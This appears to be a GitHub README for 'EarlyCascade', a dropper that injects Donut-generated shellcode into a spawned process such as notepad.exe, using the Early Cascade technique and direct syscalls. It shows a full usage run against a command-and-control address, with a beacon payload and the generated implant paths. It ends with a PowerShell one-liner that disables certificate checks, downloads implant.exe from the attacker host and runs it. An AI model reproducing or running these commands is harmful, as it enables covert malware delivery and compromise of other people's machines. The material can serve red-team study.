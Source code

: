 # EarlyCascade

Dropper that use Early Cascade technique [EarlyCascade](https://github.com/0xNinjaCyclone/EarlyCascade) to inject a shellcode generated with [Donut](https://github.com/TheWover/donut). The injection process use syscall inspiered by [SysWhispers3](https://github.com/klezVirus/SysWhispers3). 


```
python3 EarlyCascade.py -p notepad.exe -u https://10.10.10.10:8000 -b ./BeaconHttp.exe -a "10.10.10.10 8443 https"
[+] Parse url:
 Schema: https
 IP Address: 10.10.10.10
 Port: 8000
 Full Location: /JGWOEYVI72UCI9X
 shellcodeFile: JGWOEYVI72UCI9X
 Process to start: notepad.exe

[+] Generate shellcode to fetch with donut:
 ...


[+] Compile injector with informations
generate cryptDef.h with given input 
 compile injector 


[+] Check generated files

[+] Done

[+] Dropper path  :  ['./EarlyCascade/bin/implant.exe']
[+] Shellcode path:  ['./EarlyCascade/bin/JGWOEYVI72UCI9X']
[+] Command to run:  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; (New-Object Net.WebClient).DownloadFile('https://10.10.10.10:8000/implant.exe',(Get-Location).Path+'\test.exe'); Start-Process test.exe;

```